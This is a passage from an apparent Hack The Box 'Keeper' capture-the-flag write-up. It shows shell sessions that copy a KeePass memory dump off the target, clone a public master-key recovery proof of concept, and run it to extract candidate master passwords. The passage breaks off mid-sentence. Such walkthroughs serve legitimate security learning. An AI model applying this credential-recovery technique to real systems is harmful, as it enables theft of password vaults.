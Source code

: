 ```bash
┌──(k0rrib4n㉿k0rrib4n)-[~/HTB/Machines/In_Progress/Keeper]
└─$ scp lnorgaard@10.10.11.227:/home/lnorgaard/RT30000.zip Results
lnorgaard@10.10.11.227's password:
RT30000.zip                             100%   83MB   5.8MB/s   00:14
┌──(k0rrib4n㉿k0rrib4n)-[~/HTB/Machines/In_Progress/Keeper]
└─$ unzip Results/RT30000.zip -d Results
Archive:  Results/RT30000.zip
  inflating: Results/KeePassDumpFull.dmp
 extracting: Results/passcodes.kdbx
```

Next, we download the exploit using git and run the python script over the dmp file:

```bash
┌──(k0rrib4n㉿k0rrib4n)-[~/…/Machines/In_Progress/Keeper/Exploits]
└─$ git clone git@github.com:matro7sh/keepass-dump-masterkey.git
Clonando en 'keepass-dump-masterkey'...
remote: Enumerating objects: 9, done.
remote: Counting objects: 100% (9/9), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 9 (delta 0), reused 6 (delta 0), pack-reused 0
Recibiendo objetos: 100% (9/9), 32.52 KiB | 489.00 KiB/s, listo.

┌──(k0rrib4n㉿k0rrib4n)-[~/…/Machines/In_Progress/Keeper/Exploits]
└─$ cd keepass-dump-masterkey

┌──(k0rrib4n㉿k0rrib4n)-[~/…/In_Progress/Keeper/Exploits/keepass-dump-masterkey]
└─$ python poc.py -d ../../Results/KeePassDumpFull.dmp
2024-02-17 13:13:42,184 [.] [main] Opened ../../Results/KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```

I'm not sure why the recovered password has up to 3 unrecovered characters, while all the other examples where of the type `●assword`. I assume it is because all the information related to the `lnorgaard` user is in Danish language, and special characters bug the exploit.
Anyway, as we are presented multiple passwords, the first filter wer are going to apply is the common sense: Someone who uses `Welcome2023!` is probably not going to use complicated passwords with special characters, so we copy the most simple-looking password, `●ldgr●d med fl●de` and google it:
